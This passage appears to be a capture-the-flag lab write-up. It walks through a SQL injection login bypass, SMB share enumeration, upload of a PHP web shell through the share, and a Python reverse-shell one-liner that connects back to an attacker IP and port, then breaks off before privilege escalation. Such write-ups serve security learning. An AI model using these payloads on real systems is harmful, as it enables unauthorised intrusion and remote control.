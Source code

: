 - i paste the payload `admin"or 1=1 or ""="` in the username section and left the password section blank and boom it works:
![](https://i.imgur.com/Xng6wbh.png)

- so now i have credentials what next?
- from the nmap scan earlier we have port `139 & 445`open which are smb ports.
- so i tried to connect and list share in the smb server using a NULL user:

```bash
❯ smbclient  -L ////10.10.144.47 -N
```

![](https://i.imgur.com/F1Sekgv.png)
- we have a share name `SECURED`, so let’s try to log-in with the credentials we found earlier
```bash
❯ smbclient  //10.10.144.47/SECURED -U ArthurMorgan
```

![](https://i.imgur.com/jhukoFb.png)

- i noticed that the `note.txt` file in the `SECURED Share` is exactly the same file in the `http://10.10.144.47:8080/dev/note.txt`
- we can upload a web-shell to the smb share:
![](https://i.imgur.com/O6a5Nmw.png)

- let’s check it in the `/dev/webshell.php`directory on the web-service  (8080):
![](https://i.imgur.com/pKB6Puq.png)

- Now let gain a reverse shell:
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.2.221",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

- i start up my listener and execute the above python payload on the server:
![](https://i.imgur.com/iXXIYnK.png)

![](https://i.imgur.com/YbNQFDQ.png)

- you can stable the shell with:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL Z [KEY]
stty raw -echo;fg
export TERM=xterm
stty rows 40 cols 160
```

- we got a shell as `www-data` so we need to escalate our Privilege to `ArthurMorgan` and capture the user flag:
![](https://i.imgur.com/cQ7DKsX.png)
